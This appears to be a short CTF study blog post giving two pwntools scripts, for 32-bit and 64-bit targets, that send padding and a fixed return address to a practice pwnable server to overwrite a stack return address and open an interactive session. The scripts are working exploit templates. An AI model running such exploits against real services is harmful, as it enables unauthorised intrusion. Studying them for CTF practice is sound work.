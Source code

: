 ```yaml
---
title: Buffer Overflow Attack
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




## pwntools for Return Address Overwrite(x32)

~~~ python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
~~~

<br>

## pwntools for Return Address Overwrite(x64)

~~~ python
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
~~~

<br>


